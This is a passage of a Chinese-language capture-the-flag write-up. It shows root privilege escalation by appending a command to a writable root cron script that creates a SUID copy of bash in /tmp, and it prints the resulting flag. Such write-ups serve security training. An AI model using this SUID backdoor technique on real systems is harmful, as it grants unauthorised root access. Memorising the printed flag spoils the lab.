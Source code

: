 在/etc/cron.d 中发现一个可疑任务 logrotate，查看具体详情：

[![](assets/1699929525-38f844c65d9af8ce7c5a37ab0ba73621.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140947-1530d95c-8122-1.png)

该计划任务 5 分钟执行一次，并且以 root 身份运行脚本/usr/local/sbin/cron-logrotate.sh，并且该脚本无内容，且权限充足

设置计划任务，在 cron-logrotate.sh 脚本文件中写入：将/bin/sh 复制到/tmp/getroot，属主改为 root:root，并且赋予 SUID 权限

```plain
echo "cp /bin/bash /tmp/getroot; chown root:root /tmp/getroot; chmod u+s /tmp/getroot" >> /usr/local/sbin/cron-logrotate.sh
```

等待 5min 后计划任务执行，执行/tmp/getroot -p 命令，以 root 用户权限启动 bash，获取 root 用户权限

[![](assets/1699929525-830c16bc3bdaa81522ad8270261ac1af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112141007-20fc8326-8122-1.png)

## 获取 flag

得到 root 权限后，切换至 root 目录下，得到 flag 为 b6b545dc11b7a270f4bad23432190c75162c4a2b

[![](assets/1699929525-e2c8142c9e6645b2119a100359346101.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112141027-2c9311c8-8122-1.png)
